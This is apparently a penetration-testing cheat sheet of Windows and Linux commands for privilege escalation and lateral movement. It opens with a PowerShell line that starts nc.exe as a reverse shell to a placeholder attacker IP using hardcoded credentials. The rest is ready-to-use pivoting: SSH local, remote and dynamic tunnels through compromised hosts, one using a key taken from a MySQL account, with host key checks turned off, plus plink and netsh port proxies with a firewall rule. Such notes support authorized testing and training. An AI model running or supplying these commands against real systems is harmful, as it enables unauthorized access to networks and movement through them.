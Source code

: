 // RUNAS 
runas /user:<localmachinename>\administrator cmd
$secpasswd = ConvertTo-SecureString "aliceishere" -AsPlainText -Force $mycreds = New-Object System.Management.Automation.PSCredential ("alice",$secpasswd) $computer = "Bethany" [System.Diagnostics.Process]::Start("C:\Users\Public\nc.exe","<ATTACKER-IP> <PORT> -e cmd.exe",$mycreds.Username,$mycreds.Password,$computer)

##########################################################################
##							LATERAL MOVEMENT							##
##########################################################################
// RINETD
vim /etc/rinetd.conf 
bindaddress | bindport	|	connectaddress	| connectport 
0.0.0.0		|	80 		|		<IP>		| 	<PORT>

// PORT FORWARDING: LOCAL-TO-DYNAMIC
# Forward proxychains connections on 9050
kali@kali: ssh -L 9050:127.0.0.1:9050 sean@10.11.1.251
sean@sean: ssh -N -D 9050 mario@10.1.1.1 -p222

// LOCAL PORT FORWARD:
sudo ssh -N -L 0.0.0.0:445:<INTERNAL-TARGET-IP>:445 <USER>@<COMPROMISED-HOST>
	/etc/samba/smb.conf (add 'min protocol = SMB2' if necessary and save'
	sudo /etc/init.d/smbd restart
sudo proxychains ssh megan@10.1.1.27 -L111:127.0.0.1:111 -L20048:127.0.0.1:20048 -L2049:127.0.0.1:2049

// REMOTE PORT FORWARDING
# When you don't have credentials and need to forward a port 
systemctl start ssh.service
ssh -N -R <ATTACKER-IP>:<ATTACKER-PORT>:<COMPROMISED-HOST>:<TARGET-PORT> kali@<ATTACKER-IP>
sean@sean: ssh <gateway> -R <remote port to bind>:<local host>:<local port>
ssh -f -N -R 222:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa

// DYNAMIC PORT FORWARD - PROXYCHAINS
ssh -N -D 127.0.0.1:9050 <USER>@<COMPROMISED-HOST>

// DYNAMIC REMOTE PORT FORWARD (OpenSSH8.1+)
ssh -f -N -R 9050 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /var/lib/mysql/.ssh/id_rsa kali@<ATTACKER-IP>

// plink.exe #SSH client for windows
systemctl start ssh.service
cmd.exe /c echo y | plink.exe -ssh -l kali -pw <PASSWORD> -R <ATTACKER-IP>:<ATTACKER-PORT>:<COMPROMISED-HOST>:<TARGET-PORT> <ATTACKER-IP>

// NETSH LOCAL PORT FORWARD
netsh interface portproxy add v4tov4 listenport=<LOCAL-PORT> listenaddress=<COMPROMISED-HOST> connectport=<TARGET-PORT> connectaddress=<TARGET-IP>
netsh advfirewall firewall add rule name="lcl fwd" protocol=TCP dir=in localip=<COMPROMISED-HOST> localport=<LOCAL PORT> action=allow
